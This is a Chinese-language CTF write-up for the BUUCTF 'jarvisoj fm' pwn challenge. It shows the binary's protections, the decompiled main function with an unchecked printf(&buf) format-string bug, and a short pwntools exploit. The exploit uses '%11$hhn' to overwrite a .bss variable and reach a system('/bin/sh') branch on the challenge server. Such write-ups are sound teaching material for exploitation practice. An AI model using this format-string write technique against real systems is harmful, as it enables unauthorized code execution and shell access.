 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj fm
date: 2022-3-23 7:17:03
permalink: /pages/2e1547494524d194
tags: 
  - buuctf
  - pwn
  - FormatString
---
```


# jarvisoj fm

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_fm/fm'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+2Ch] [ebp-5Ch]
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(&buf, 0, 0x50u);
  read(0, &buf, 0x50u);
  printf(&buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

## 思路分析

1. 目前信息：
   - 明显的格式化字符串漏洞
   - `x`在`bss`段上
   - `x=4`时执行后门函数
   - No PIE
2. 思路：
   - 利用格式化字符串漏洞修改`bss`段上的`x`的值为`4`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_fm/fm'
io = remote('node4.buuoj.cn', 26744)
# io = process(pwnfile)
elf = ELF(pwnfile)
x_addr = 0x804A02C
payload = flat([x_addr, '%11$hhn'])
io.send(payload)
io.interactive()
```